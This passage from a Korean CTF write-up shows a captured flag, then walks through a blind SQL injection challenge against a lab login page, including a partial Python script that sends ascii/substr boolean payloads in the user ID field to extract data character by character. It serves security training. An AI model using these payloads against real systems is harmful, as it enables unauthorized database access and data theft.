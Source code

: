 플래그가 출력되었다.

<p style="text-align: center;">Flag: <span style="color: green">segfault{<span style="filter: blur(5px);">manyData_youFind</span>}</span></p>

<br>

##### SQL Injection 6

<img src="/data/Penetration%20Testing%20%7C%20Week%207/39.png" alt="SQL Injection 6" style="padding: 0 200px; background-color: white">

링크의 주소로 접속하여 로그인을 시도한 결과, 아이디 입력란에서 SQL Injection 공격이 가능하나 오류 메시지가 출력되지 않아 Error-Based SQL Injection은 불가함을 확인하였다. 따라서 Blind SQL Injection을 시도해 보기로 결정하였다.

Blind SQL Injection 기법의 특성상, 데이터 추출을 위해 각 문자의 값을 개별적으로 확인하는 방식이 요구되어 시간적 소모가 상당하므로, 자동화 스크립트를 작성하여 공격을 수행하였다.

작성된 스크립트는 다음과 같다.

```python
# blind_sqli.py

import requests

url = "http://ctf2.segfaulthub.com:7777/sqli_3/login.php"

def is_true(row, idx, asc):
  if sql.strip().lower() == "select database()" and row > 0:
    return False
  payload = f"normaltic' and (ascii(substr(({sql} limit {row}, 1), {idx}, 1)) > {asc})
              and '1' = '1"
  request_data = {"UserId": payload, "Password": "1234", "Submit": "Login"}
  return "Logged In" in requests.post(url, request_data).text

def find_char(row, idx, low = 32, high = 126):
  if low > high:
```
